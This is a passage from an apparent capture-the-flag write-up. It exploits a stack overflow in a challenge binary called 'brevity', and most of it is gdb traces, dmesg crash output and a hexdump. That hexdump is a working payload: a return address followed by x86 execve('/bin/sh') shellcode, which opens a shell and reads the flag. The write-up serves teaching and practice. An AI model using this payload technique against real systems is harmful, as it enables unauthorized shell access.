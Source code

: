 ```
1: x/3i $eip
=> 0xffff1361:	xor    eax,eax
   0xffff1363:	mov    al,0xb
   0xffff1365:	int    0x80
(gdb) si
0xffff1363 in ?? ()
1: x/3i $eip
=> 0xffff1363:	mov    al,0xb
   0xffff1365:	int    0x80
   0xffff1367:	das    
(gdb) si
0xffff1365 in ?? ()
1: x/3i $eip
=> 0xffff1365:	int    0x80
   0xffff1367:	das    
   0xffff1368:	bound  ebp,QWORD PTR [ecx+0x6e]
(gdb) si
process 23989 is executing new program: /bin/dash
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x80480cf
```

However, this will not work perfectly when we run the binary natively (due to some stack offsets being influenced by environment variables inside and outside of `gdb`). We can use `dmesg | tail -n 5` to look at crash information from the binary crashing to determine how much we need to adjust the stack address from `0xffff1344`:
```
ameise@shell:/tmp/ameise$ cat input -| /home/problems/ffea9c42b57ff63588ae3542bd0b0d9b/brevity_9/brevity
aaaaaaaaaaaaaaaaX��1�1ɻg��1��
                               /bin/sh
Segmentation fault
ameise@shell:/tmp/ameise$ dmesg | tail -n 1
[17147666.233090] brevity[24488]: segfault at 38 ip 00000000ffff1358 sp 00000000ffff1328 error 6
```

We know that after the overwritten `ret` is called, the stack pointer will be pointing to our shellcode. However, this crash message shows that the stack pointer is `0xffff1328` while the instruction pointer faulted at `0xffff1358`. If we subtract `0x30` from our start address in `solve.py` and generate a new input file, it will work natively:
```
ameise@shell:/tmp/ameise$ nano solve.py 
[...]
BUFFERSTART = 0xffff1314
[...]
ameise@shell:/tmp/ameise$ python solve.py 
ameise@shell:/tmp/ameise$ cat input | xxd
0000000: 6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
0000010: 2813 ffff 31d2 31c9 bb37 13ff ff31 c0b0  (...1.1..7...1..
0000020: 0bcd 802f 6269 6e2f 7368 00              .../bin/sh.
ameise@shell:/tmp/ameise$ cat input -| /home/problems/ffea9c42b57ff63588ae3542bd0b0d9b/brevity_9/brevity
aaaaaaaaaaaaaaaa(��1�1ɻ7��1��
                               /bin/sh

whoami
ameise
pwd
/tmp/ameise
cd /home/problems/ffea9c42b57ff63588ae3542bd0b0d9b/brevity_9  
ls
brevity  flag
cat flag
```